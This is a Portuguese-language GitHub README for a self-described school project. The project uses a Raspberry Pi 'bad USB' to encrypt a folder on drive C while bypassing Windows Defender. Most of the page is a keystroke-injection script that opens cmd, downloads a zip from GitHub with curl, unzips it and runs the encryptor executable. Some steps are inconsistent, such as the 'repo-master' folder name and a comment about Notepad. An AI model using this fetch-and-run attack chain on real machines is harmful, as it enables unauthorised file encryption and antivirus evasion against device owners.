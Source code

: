 # CifrarPastaTrabalhoEscola
Trabalho escola para cifrar uma pasta


rapysberry pi bad usb encrpyt a folder
PROJETO DESENVOLVIDO POR TELES
PROJETO DE ESCOLA PARA CIFRAR UMA PASTA que da bypass ao windows defender

este PROJETO VAI CIFRAR UMA PASTA NO DISCO C CHAMADA DE TESTE 
Por isso se quiseres testar este projeto tens que criar uma pasta no disco c e meter o nome de teste 
e adicionar alguns ficheiros la dentro



CONTINUACAO DO PROJETO E FAZER DOWNLOAD DO FICHEIRO NO GITHUB A USAR UMA BADUSB PARA ELA FAZER O DOWNLOAD E EXECUTAR E CIFRAR UMA PASTA NO PC



REM Inicia o Notepad
DELAY 1000
GUI r
DELAY 1000
REM Abre a janela de comando
STRING cmd
ENTER
DELAY 1000
REM Vai para a pasta de downloads
STRING cd downloads
ENTER
DELAY 1000
REM Faz o download do arquivo ZIP
STRING curl -LJO https://github.com/PEQSPC/CifrarPastaTrabalhoEscola/archive/refs/heads/main.zip
ENTER
DELAY 5000
REM Descompacta o arquivo ZIP
STRING unzip CifrarPastaTrabalhoEscola-main.zip
ENTER
DELAY 1000
REM Vai para a pasta descompactada
STRING cd repo-master
ENTER
DELAY 1000
REM Executa o arquivo dentro da pasta
STRING cifrarumapasta.exe
ENTER
